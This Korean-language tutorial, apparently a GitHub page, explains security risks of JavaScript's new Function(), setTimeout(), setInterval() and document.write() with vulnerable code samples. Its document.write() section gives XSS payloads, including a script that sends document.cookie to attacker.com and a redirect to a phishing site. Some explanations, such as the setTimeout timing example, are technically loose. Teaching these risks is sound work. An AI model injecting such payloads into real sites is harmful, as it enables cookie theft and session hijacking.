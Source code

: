 ## ☪️ 동적 코드 실행 함수 (Dynamic Code Execution Functions)
#### new Function(), setTimeout(), setInterval(), document.write()

---

### **1. `new Function()`을 통한 코드 인젝션 공격**

#### **개념**:

`new Function()`은 **동적으로 JavaScript 코드를 실행**하는 강력한 함수입니다. 이 함수는 문자열을 받아서 실행 가능한 코드로 변환해 실행하는 방식입니다. 그런데 이 방식이 문제를 일으킬 수 있습니다. **외부 입력을 코드로 실행**하는 경우 **코드 인젝션** 공격에 취약해집니다.

#### **웹 해킹 관점에서의 위험**:

* **코드 인젝션 (Code Injection)**: 외부 사용자가 입력한 값을 **JavaScript 코드로 실행**하는 방식은 매우 위험합니다. 악성 코드가 삽입될 수 있기 때문입니다. 공격자는 이를 악용하여 **쿠키 탈취**, **세션 하이재킹**, **크로스 사이트 스크립팅(XSS)** 공격을 수행할 수 있습니다.

#### **공격 예시**:

**XSS (Cross-Site Scripting) 공격**

* 예를 들어, 웹 애플리케이션이 사용자로부터 **댓글**을 입력받고 이를 **동적으로 출력**하는 기능을 제공한다고 합시다. 사용자가 입력한 댓글을 `new Function()`을 통해 처리하는 코드가 있다고 가정해보겠습니다.

  **취약한 코드**:

  ```javascript
  let userComment = document.getElementById("commentInput").value;  // 사용자 댓글 입력 받기
  let dynamicComment = new Function(userComment);  // 입력된 댓글을 코드로 실행
  dynamicComment();  // 사용자 입력을 실행
  ```

  이 코드에서, 만약 사용자가 **악성 스크립트**를 입력한다면, 그 코드는 그대로 실행됩니다. 예를 들어, 사용자가 입력란에 `alert(document.cookie)`라는 코드를 삽입했다고 가정해봅시다. 이 경우, **사용자의 쿠키**가 알림창으로 출력되며 공격자는 이를 **탈취**할 수 있습니다.

  **악성 코드 예시**:

  ```javascript
  alert(document.cookie);  // 쿠키 탈취
  ```

  이 코드는 공격자가 웹 애플리케이션에서 **사용자의 쿠키**를 알아낼 수 있게 합니다. 이를 통해 공격자는 **세션 하이재킹**을 시도하거나, 다른 민감한 정보를 탈취할 수 있습니다.

---

### **2. `setTimeout()`을 통한 타이밍 공격**

#### **개념**:

`setTimeout()`은 **특정 시간 후에 한 번 실행되는** 비동기 함수입니다. 주로 지연된 실행을 위해 사용되며, 설정된 시간이 지나면 **콜백 함수**가 실행됩니다. 이 함수는 **비동기적**으로 동작하기 때문에 주어진 시간에 맞춰서 **타이밍을 조절**할 수 있습니다.

#### **웹 해킹 관점에서의 위험**:

* **타이밍 공격 (Timing Attacks)**: 공격자는 `setTimeout()`을 활용하여 **서버의 응답 시간**을 분석하거나 **사용자의 인증 정보를 추측**할 수 있습니다. 특히 인증 시스템에서는 **성공적인 로그인**과 **실패한 로그인**의 응답 시간이 다를 수 있기 때문에 이를 악용하여 **패스워드**나 **사용자 이름**을 유추할 수 있습니다.

#### **공격 예시**:

* 예를 들어, 로그인 페이지에서 `setTimeout()`을 사용하여 응답을 지연시키는 방식이 있을 수 있습니다. 공격자는 로그인 성공과 실패의 시간을 분석해, **비밀번호 추측**이나 **사용자 정보**를 유추할 수 있습니다.

  **취약한 코드 예시**:

  ```javascript
  setTimeout(() => {
    // 로그인 성공 시 수행되는 동작
    alert('로그인 성공');
  }, 500);  // 500ms 후에 실행
  ```

  이 코드는 로그인 성공 시 **500ms** 동안 지연되는데, 공격자는 여러 번 로그인 시도를 통해 **응답 시간**의 차이를 분석하고 로그인 성공 여부를 알아낼 수 있습니다.


---

### **3. `setInterval()`을 통한 서비스 거부(DoS) 공격**

#### **개념**:

`setInterval()`은 주어진 시간 간격으로 **지속적으로 함수를 반복 실행**하는 함수입니다. 주기적으로 특정 작업을 수행할 때 유용하지만, 이를 잘못 사용하면 **서버 자원 소모**나 **서비스 거부(DoS) 공격**을 유발할 수 있습니다.

#### **웹 해킹 관점에서의 위험**:

* **서비스 거부(DoS)**: 공격자는 `setInterval()`을 통해 서버에 **과도한 요청**을 반복적으로 보내거나, 클라이언트에서 불필요하게 자원을 소모시킬 수 있습니다. 이렇게 하면 서버가 과부하에 걸리거나 클라이언트 측에서 **리소스를 낭비**하게 되어 **서비스 거부 상태**에 빠질 수 있습니다.

#### **공격 예시**:

* 예를 들어, 클라이언트가 `setInterval()`을 사용하여 서버에 **주기적으로** 요청을 보내게 된다면, 서버는 과도한 요청을 처리해야 하므로 자원이 고갈되어 **서비스 거부(DoS)** 상태에 빠질 수 있습니다.

  **취약한 코드 예시**:

  ```javascript
  setInterval(() => {
    fetch('https://example.com/api');  // 서버에 계속해서 요청 보내기
  }, 10);  // 10ms마다 요청을 보냄
  ```

  이 코드는 **10ms마다** 서버에 계속 요청을 보내게 되며, 서버는 **과도한 요청 처리**로 인해 **리소스를 소모**하게 됩니다. 결국 서버는 정상적인 요청을 처리하지 못하고 **서비스가 마비**될 수 있습니다.

#### **취약점 해결**:

* **요청 간격을 제한**하고, 서버에 **불필요한 반복 요청**이 발생하지 않도록 주의해야 합니다. 또한 **API 요청에 대한 제한**(rate limiting)을 설정하여, 클라이언트에서 과도한 요청을 보내지 못하도록 방지해야 합니다.

---

### **4. `document.write()`을 통한 DOM 공격**

#### **개념**:

`document.write()`는 **Java스크립트로 동적으로 HTML 콘텐츠를 삽입**할 수 있는 함수입니다. 이 함수는 주로 **페이지 로딩 중**에 콘텐츠를 삽입하거나 수정하는 데 사용됩니다. 그러나 **동적으로 HTML을 삽입**할 수 있는 강력한 기능을 제공하지만, 그만큼 **보안상 심각한 취약점을 초래할 수 있습니다**. 주로 **XSS (Cross-Site Scripting)** 공격이나 **페이지 위조** 같은 문제를 유발할 수 있습니다.

#### **웹 해킹 관점에서의 위험**:

* **페이지 내용 덮어쓰기**:
  `document.write()`는 페이지 로딩이 완료된 후에는 **문서의 기존 콘텐츠를 덮어쓸** 수 있습니다. 만약 사용자 입력이 포함되어 있다면, **기존 콘텐츠가 모두 삭제**되고 새로운 콘텐츠로 바뀌게 됩니다. 이로 인해 **사용자 경험**에 심각한 영향을 미칠 수 있습니다.

* **스크립트 삽입**:
  `document.write()`는 **HTML 요소를 삽입**하기 위해 사용되며, 사용자가 입력한 값이 HTML 코드로 삽입되는 방식입니다. 이로 인해 **HTML 태그나 스크립트**가 삽입되면, 악성 코드가 실행될 수 있습니다.

#### **공격 예시**:

웹 애플리케이션에서 **사용자 댓글**을 입력받아 페이지에 동적으로 출력하는 기능을 제공한다고 합시다. 이때 \*\*`document.write()`\*\*로 사용자의 댓글을 페이지에 삽입하는 방식을 사용하고 있다고 가정합니다.

```javascript
let userComment = document.getElementById("commentInput").value;  // 사용자 댓글 입력 받기
document.write(userComment);  // 입력된 값을 그대로 페이지에 삽입
```

#### **악성 입력**

악의적인 사용자가 `document.write()`의 입력 필드에 JavaScript 코드를 삽입할 수 있다면, 이는 **XSS 공격**으로 이어질 수 있습니다. 예를 들어, 공격자가 다음과 같이 입력한다고 가정해봅시다:

```html
<script>alert('XSS Attack!');</script>
```

이 코드가 `document.write()`에 의해 실행되면, 웹 페이지에 **알림창이 뜨게 되며**, 이는 공격자가 **악성 스크립트를 실행**시키는 방법입니다.

#### **결과**

* **쿠키 탈취**: 공격자는 \*\*`document.cookie`\*\*를 이용해 사용자의 **세션 쿠키**를 탈취할 수 있습니다.

  ```javascript
  <script>document.location='https://attacker.com?cookie=' + document.cookie;</script>
  ```

  위와 같은 스크립트가 삽입되면, 사용자의 쿠키가 공격자에게 전송되어 세션 하이재킹 공격에 사용될 수 있습니다.

* **피싱 공격**: 공격자는 **가짜 로그인 페이지**를 삽입해 사용자가 로그인 정보를 입력하게 유도할 수 있습니다.

  ```html
  <script>document.location="https://fake-login.com"</script>
  ```

  이 스크립트는 사용자를 **피싱 사이트**로 리디렉션시켜 **사용자 정보를 탈취**할 수 있습니다.
